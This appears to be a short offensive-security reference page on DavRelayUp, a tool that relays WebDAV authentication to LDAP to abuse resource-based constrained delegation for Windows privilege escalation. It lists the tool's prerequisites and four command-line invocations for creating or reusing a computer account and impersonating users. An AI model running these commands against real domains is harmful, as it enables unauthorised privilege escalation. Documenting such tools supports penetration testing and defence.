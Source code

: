 # DavRelayUp

Link: https://github.com/Dec0ne/DavRelayUp

## Requirements: Valid domain credentials. LDAP signing is not enforced.

Works similar to KrbRelayUp, but relay from WebDAV to LDAP

##### Create a new computer account to perform RBCD

    ./DavRelayUp.exe -c

##### Use an existing computer account

    ./DavRelayUp.exe -cn <computer_name> -cp <computer_password>

##### Impersonate another local user than Administrator

    ./DavRelayUp.exe -c -i user1

##### Start WebDAV on another port than the default 55555

    ./DavRelayUp.exe -c -p 1234
